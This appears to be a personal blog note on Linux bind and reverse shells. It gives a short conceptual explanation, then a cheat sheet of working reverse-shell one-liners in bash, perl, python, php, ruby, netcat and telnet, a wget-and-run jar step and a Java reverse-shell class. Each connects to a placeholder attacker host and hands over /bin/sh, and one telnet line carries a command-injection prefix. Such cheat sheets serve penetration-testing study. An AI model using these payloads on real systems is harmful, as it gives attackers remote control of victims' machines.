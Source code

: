 ```yaml
---
title: Linux - reverse shell & Bind shell
date: 2020-11-01 11:11:11 -0400
categories: [31Linux, Sysadmin]
tags: [Linux, Sysadmin]
math: true
image: 
---
```


[toc]

---

# Bind shell

Bind shell 
- attacker's machine acts as a client 
- victim's machine acts as a server opening up a communication port on the victim and waiting for the client to connect to it 
- and then attacker issue commands that will be remotely executed on the victim's machine. 

> This would be only possible if the victim's machine has a public IP and is accessible over the internet (disregarding all firewall etc. for the sake of brevity).


what if the victim's machine is NATed and hence not directly reachable ?
- attacker's machine is reachable. 
- So attacker open a server and let the victim connect to him. 
- This is what a reverse shell is. 

---

# reverse shell

Reverse Shell 
- attacker's machine (has a public IP and is reachable over the internet) acts as a server. 
- It opens a communication channel on a port and waits for incoming connections. 
- Victim's machine acts as a client and initiates a connection to the attacker's listening server. 

Open two tabs in your terminal.
1. open TCP port 8080 and wait for a connection:
2. `nc localhost -lp 8080`
3. Open an interactive shell, and redirect the IO streams to a TCP socket:
4. `bash -i >& /dev/tcp/localhost/8080 0>&1`


```bash

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1;

# bash -i "If the -i option is present, the shell is interactive."

# >& "redirects both, stdout and stderr to the specified target."

# (argument for >&) /dev/tcp/localhost/8080 is a TCP client connection to localhost:8080.

# 0>&1 redirect file descriptor 0 (stdin) to fd 1 (stdout), hence the opened TCP socket is used to read input.

```

perl shell

```perl
perl -e 'use Socket;$i="1.1.1.1";$p=10086;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};';
```

python shell

```py
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.1.1.1",10086));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);';
```

php shell

```php
php -r '$sock=fsockopen("1.1.1.1",10086);exec("/bin/sh -i <&3 >&3 2>&3");';
```

ruby shell

```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("1.1.1.1","10086");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end';
```

nc shell

```bash
nc -c /bin/sh 1.1.1.1 10086;
```

telnet shell

```
telnet 1.1.1.1 10086 | /bin/bash | telnet 1.1.1.1 10087; # Remember to listen on your machine also on port 4445/tcp

127.0.0.1; mknod test p ; telnet 1.1.1.1 10086 0<test | /bin/bash 1>test;
```

java jar shell

```java
wget http://1.1.1.1:9999/revs.jar -O /tmp/revs1.jar;

java -jar /tmp/revs1.jar;

import java.io.IOException;    
public class ReverseShell {    
    public static void main(String[] args) throws IOException, InterruptedException {
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/1.1.1.1/10086;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```


---

ref
- [example](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)
- [2](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

.